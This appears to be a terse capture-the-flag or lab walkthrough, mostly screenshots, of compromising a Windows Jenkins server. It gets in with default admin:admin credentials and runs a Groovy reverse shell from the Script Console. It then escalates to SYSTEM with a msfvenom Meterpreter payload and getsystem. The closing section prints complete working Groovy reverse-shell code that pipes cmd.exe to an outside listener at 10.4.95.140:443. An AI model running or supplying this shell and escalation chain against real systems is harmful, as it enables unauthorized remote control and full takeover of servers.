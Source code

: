 ![image](https://github.com/user-attachments/assets/7d258d44-c5aa-4bbe-8a91-1799bb24cdd5)
![image](https://github.com/user-attachments/assets/f6c07fdf-38b9-4209-b7b7-1201bb5a8aca)

Try common default cred admin:admin, get in.

Manage Jenkins -> Script Console -> Groovy Reverse Shell -> Run

![image](https://github.com/user-attachments/assets/8a0bc764-55e1-417d-844a-9b6fdd19ad5c)
![image](https://github.com/user-attachments/assets/5b504bbc-a43c-4f34-bdc9-b31de77900a9)
![image](https://github.com/user-attachments/assets/8ea3e0ce-f63e-43a3-8b33-fe1552b25f65)
![image](https://github.com/user-attachments/assets/6d8b8f9f-b8bd-4ae4-b79e-31c5a86890f8)

SharpEfsPotato, PrintSpoofer64.exe, RoguePotato, etc. not work --> cannot PrivEsc to SYSTEM

![image](https://github.com/user-attachments/assets/a59a788d-1db6-4cce-b015-c42a3e56c6ae)


Use Meterpreter payload

![image](https://github.com/user-attachments/assets/e3e91d1b-74da-4bde-b3a0-b1f04dc43266)
![image](https://github.com/user-attachments/assets/568e1fee-a40a-4315-bf7e-c1af7a4f29c9)
![image](https://github.com/user-attachments/assets/baf95daa-8af2-4944-84f2-59c612f817cd)

1. msfvenom meterpreter payload --> upload to machine

2. msfconsole setting to match paylaod and run --> Start reverse ...
 
3. Powershell Start-Process "revshell.exe" --> trigger the payload

4. user has SeImpersonatePrivilege enabled --> getsystem --> PrivEsc to SYSTEM


Groovy code:

```bash
String host="10.4.95.140";
int port=443;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host, port);
InputStream pi=p.getInputStream(), pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(), so=s.getOutputStream();
while(!s.isClosed()){
    while(pi.available()>0)
        so.write(pi.read());
    while(pe.available()>0)
        so.write(pe.read());
    while(si.available()>0)
        po.write(si.read());
    so.flush();
    po.flush();
    Thread.sleep(50);
    try {
        p.exitValue();
        break;
    } catch (Exception e){}
};
p.destroy();
s.close();
```
